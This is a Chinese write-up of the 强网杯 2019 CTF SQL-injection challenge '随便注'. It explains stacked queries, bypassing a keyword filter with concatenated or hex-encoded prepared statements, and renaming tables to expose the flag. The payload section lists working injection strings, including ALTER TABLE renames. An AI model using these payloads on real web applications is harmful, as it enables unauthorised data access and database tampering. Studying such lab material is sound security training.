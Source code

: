 # 强网杯 2019

## 随便注

> *2021/07/15*

### 题目

本题可采用的是**预编译**和**对调名字**两种方法

进入界面，和上一道题基本相同

![强网杯20191](img/强网杯2019/强网杯20191.png)

继续采用上到题的方案进行**堆叠查询**出**表名，列名**

![强网杯20192](img/强网杯2019/强网杯20192.png)

![强网杯20193](img/强网杯2019/强网杯20193.png)

继续联合查询，查询出过滤的关键字

![强网杯20194](img/强网杯2019/强网杯20194.png)

可以发现`set`，`prepare`，`rename`，`alter`都没有被过滤，有两种方案

#### 预处理语句

> [MySQL的SQL预处理(Prepared)](https://www.cnblogs.com/geaozhang/p/9891338.html)

原理还是比较好理解的，主要是本题直接用`set`和`prepare`不行，因为有过滤

![强网杯20195](img/强网杯2019/强网杯20195.png)

#### 对调名字

由上面的探测我们可以猜测出这里会查询出words表的data列的结果，也就是`select * from words where id = '';`

如果我们能将语句换成``select * from `1919810931114514` where flag = '';``那么就能得到flag了

> - `alter table user rename to users // 将表名从user改成users`
> - `alter table users change username name varchar(30) //将列名从username改为name`

我们可以先将`words`表改变为一个其他名字，然后将`1919810931114514`表命名为`words`表，在将`1919810931114514`表中原本的`flag`列改名为`id`列

### payload

```
?inject=1';show tables;
// return table name 1919810931114514
```

```
?inject=1';Set @sql=concat("s","elect user()");PREPARE sqla from @sql;EXECUTE sqla; // 拼接
?inject=1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare bme from @a;execute bme; //转化为16进制
// return flag
```

```
?inject=1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);
?inject=1' or '1'='1
//return flag
```

